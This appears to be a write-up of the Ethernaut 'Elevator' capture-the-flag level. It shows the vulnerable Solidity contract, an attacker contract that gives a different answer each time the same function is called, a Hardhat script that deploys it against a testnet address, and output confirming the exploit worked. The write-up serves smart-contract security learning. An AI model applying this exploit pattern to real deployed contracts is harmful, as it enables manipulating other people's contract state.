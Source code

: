 ```yaml
---
title: Ethernaut #11 Elevator
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Elevator challenge writeup
---
```


## Elevator

### Challenge

This elevator won't let you reach the top of your building. Right?

#### Things that might help:

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Background

This is a very simple attack. We need to keep in mind that as long as we follow the `Building` `interface` then the `Elevator` can interact with our contract. However, since the `Building` contract is under the attackers control, there is no limit regarding what else the contract can do.

### Attack

Create a contract that satisfies the the `Building` `interface` but flips its response each time. Make sure that `isLastFloor` will respond `false` the first time, and `true` the second. This will make the first call that checks if its the top floor say its not, and the second that sets the `top` variable say it is.

* Create a contract that implements `isLastFloor` but returns `false` the first time and `true` the second
* Call the `goTo` function through the attacker controlled contract


#### ElevatorSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Elevator.sol';

contract ElevatorSolve {

    Elevator elevatorContract;
    bool lastFloor;

    constructor(address payable _elevatorAddress) public {
        elevatorContract = Elevator(_elevatorAddress);
        lastFloor = true;
    }
    
    function isLastFloor(uint) external returns (bool) {
        lastFloor = !lastFloor;
        return lastFloor;
    }

    function goTo (uint _floor) public {
        elevatorContract.goTo(_floor);
    }

}
```

#### elevator-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    elevatorAddress = "0xe8cAdc8eA3A2D55907409cc18a3bB4a71f356379";
    contract = await ethers.getContractAt("Elevator", elevatorAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    ElevatorSolve = await ethers.getContractFactory("ElevatorSolve");
    elevatorSolve = await ElevatorSolve.deploy(contract.address);
    await elevatorSolve.deployed();

    console.log("Initial Floor: " + await contract.floor())
    console.log("Initial Top  : " + await contract.top())

    // call the goTo function to trigger the attack
    tx = await elevatorSolve.connect(account).goTo(2)
    receipt = await tx.wait()

    console.log("Floor        : " + await contract.floor())
    console.log("Top          : " + await contract.top())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/elevator-solve.js --network rinkeby
Initial Floor: 0
Initial Top  : false
Floor        : 2
Top          : true
```

### Success Message

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
